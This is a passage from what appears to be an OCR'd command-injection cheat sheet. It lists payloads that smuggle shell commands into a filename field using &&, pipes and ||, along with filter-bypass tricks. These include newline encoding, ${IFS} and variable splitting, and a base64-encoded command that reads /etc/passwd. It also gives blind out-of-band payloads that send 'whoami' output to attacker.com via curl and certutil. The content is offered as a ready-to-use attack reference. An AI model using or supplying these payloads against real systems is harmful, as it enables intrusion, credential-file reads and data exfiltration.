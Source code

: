 *   **Payload**: `example.jpg && whoami`  

#### `|` (Pipe)
Output of first command becomes input for the second.  

*   **Payload**: `example.jpg | whoami`

#### `||` (Double Pipe)
Executes the next command only if the previous one failed.  

*   **Payload**: `example.jpg || whoami`

### Bypassing Input Filters

If an application filters certain characters, try alternative methods:

#### Newlines (`%0a` or `\n`)
Many command interpreters treat newlines as command separators.  
*   **Payload**: `example.jpg%0aid` (URL encoded)

#### Comments (`#` or `//`)
Use comments to terminate the original command and prevent errors from subsequent parts.
*   **Payload**: `example.jpg | id #`

#### Base64 Encoding
Some applications might decode Base64 before execution.  

*   **Payload**: `echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash` (for `cat /etc/passwd`) 

#### Using different commands
If `cat` is blocked, try `more`, `less`, `tail`, `head`, `strings`.  

**Wildcards**: If spaces are filtered, use `{id,}` or globbing.  

    *   **Payload**: `echo${IFS}a;id` or `id${IFS}example.jpg`  

**Environment Variables**: Use variables to break up commands.  
    *   **Payload**: `a=i;b=d;$a$b` (executes `id`)  

### Blind Command Injection (Time-based or Out-of-band)

If the application doesn't return command output directly, you can still detect and exploit it.

#### Time-based (Linux)
*   **Payload**: `example.jpg; sleep 5;`
*   **Expected Behavior**: The page takes 5 seconds longer to load.

#### Time-based (Windows)
*   **Payload**: `example.jpg & ping -n 5 127.0.0.1 &`
*   **Expected Behavior**: The page takes 5 seconds longer to load.

#### Out-of-band (DNS or HTTP callback)
*   **Payload**: `example.jpg; curl http://attacker.com?data=$(whoami)` (Linux)
*   **Payload**: `example.jpg & certutil -urlcache -f http://attacker.com/$(whoami) &` (Windows, less reliable)
*   **Expected Behavior**: Your attacker-controlled server (`attacker.com`) receives a request containing the output of `whoami`. Tools like Burp Collaborator or a simple Python HTTP server can capture this.
